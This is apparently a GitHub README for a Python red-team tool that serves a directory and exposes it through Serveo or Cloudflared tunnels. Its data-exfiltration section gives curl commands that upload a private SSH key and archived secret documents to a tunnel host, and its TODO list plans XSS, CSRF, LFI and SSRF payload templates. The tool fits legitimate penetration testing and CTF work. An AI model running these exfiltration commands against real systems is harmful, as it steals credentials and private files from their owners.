 <h2 align="center">
  🪝 Webhook Server Tunnel
</h2>


 
<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FSearchToolkit">
        <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fwebhook&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.buymeacoffee.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Buy%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black" alt="Buy Me a Coffee">
    </a>  
    <a href="mailto:ehph@proton.me">
      <img src="https://img.shields.io/badge/ProtonMail-6001D2?style=for-the-badge&logo=protonmail&logoColor=white" alt="ProtonMail">
    </a>
    <a href="https://github.com/l0n3m4n/SearchToolkit/blob/main/assets/contributing.md">
      <img src="https://img.shields.io/badge/Contribute-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
  </a>
</p>
<br/>

This Python script serves a local directory over HTTP and exposes it securely to the internet via a reverse tunnel using either:

- Serveo (SSH-based tunneling)
- Cloudflared (Cloudflare Tunnel)

It’s especially useful for:

- 📁 Hosting payloads or exploits during red team exercises or CTFs
- 📤 Exfiltrating data from compromised targets in a controlled environment via (`https`)
- 🧪 Testing XSS, CSRF, and SSRF vulnerabilities by exposing local endpoints
- 🌐 Simulating external servers during bug bounty engagements
- 💻 Demonstrating proof-of-concepts (PoCs) for file uploads or callbacks
- 🔐 Secure remote access to localhost web apps for testing
- 📡 Bypassing NAT/firewall restrictions without port forwarding

![Banner](assets/banner.png)

---

## 🚀 Features

- HTTP server using Python's built-in modules
- Logs all request headers to `headers.log`
- Expose server via:
  - 🌐 [Serveo](https://serveo.net)
  - ☁️ [Cloudflared](https://developers.cloudflare.com/cloudflare-one/)
- ANSI-colored terminal output
- Easy to use CLI

---

## 🛠 Requirements

- Python 3.6+
- `cloudflared` (only if Serveo is unavailable)

---

## 📦 Installation

```bash
# Clone the repo
git clone https://github.com/l0n3m4n/webhook.git
cd webhook

# Make it executable
chmod +x webhook.py

# (Optional) Install cloudflared if not using Serveo
sudo apt install cloudflared  # Or follow: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps/install-and-setup/
```

## 🐧 Kali linux (debian,ubuntu)
```bash
# system update
sudo apt update

# dependencies
sudo apt install -y curl gnupg lsb-release

# Add Cloudflare's GPG key
curl -fsSL https://pkg.cloudflare.com/cloudflare-main.gpg | sudo gpg --dearmor -o /usr/share/keyrings/cloudflare-main.gpg

# Add the Cloudflare apt repository
echo "deb [signed-by=/usr/share/keyrings/cloudflare-main.gpg] https://pkg.cloudflare.com/cloudflared $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/cloudflared.list

# Update apt again and Install
sudo apt update && sudo apt install cloudflared -y 
```
## 📡 Usage
```bash
sudo python3 webhook.py -p 8080 -d /var/www/html
```
![usage](assets/usage.png)
![output](assets/output.png)
![status_codes](assets/status_codes.png)
![headers_log](assets/headers_logs.png)
- This will:
    - Serve files at http://localhost:8080
    - Attempt to expose it via Serveo

## 🔁 Data exfiltration
```bash
curl -F "file=@/home/user/.ssh/id_rsa" https://abc123.cloudflareTunnel.com/upload

tar czf secrets.tar.gz ~/Documents/secrets
curl -F "file=@secrets.tar.gz" https://abc123.cloudflareTunnel.com/upload

```

## 🔐 Security Notes
- This tool uses SSH for Serveo and a reverse proxy for Cloudflared.
- Ensure you trust any services you expose publicly.

## ✅ TODO List

### 🔌 Tunnel Providers
- [x] Add support for multiple tunneling services:
  - [x] `Serveo`
  - [x] `Cloudflared`
  - [x] `Ngrok`
  - [x] `LocalTunnel`
- [x] Add CLI flags for selecting tunnel provider (e.g., `--serveo`, `--cloudflared`, `--ngrok`)
- [x] Auto-detect and install missing binaries (e.g., `ngrok`, `cloudflared`)

### 🌐 Server Features
- [x] Display public tunnel URL clearly
- [x] Serve files from a specified directory
- [x] Web-based directory listing with download buttons
- [x] File upload support for data exfiltration
- [x] Log incoming HTTP requests (IP, User-Agent, Time)

### ⏱️ Control & Automation
- [ ] Implement auto-shutdown timer
- [ ] Auto-reconnect/restart tunnels on failure
- [ ] Add password protection for server access

### 🧪 Exploitation Helpers
- [ ] Generate payload templates:
  - [ ] XSS (DOM, Reflected, Stored)
  - [ ] CSRF Proof of Concept
  - [ ] LFI/RFI test cases
  - [ ] SSRF test URLs
- [ ] Webhook listener module (e.g., for Blind XSS or SSRF detection)
- [ ] Integrate with Interactsh or Burp Collaborator

### 🛠️ Developer Tools
- [ ] Proxy chaining to local tools like Burp Suite
- [ ] Optional local logging
- [ ] QR code generator for public URLs
- [x] CLI output beautification (colors, banners, progress indicators)

---

> Contributions and suggestions are welcome!
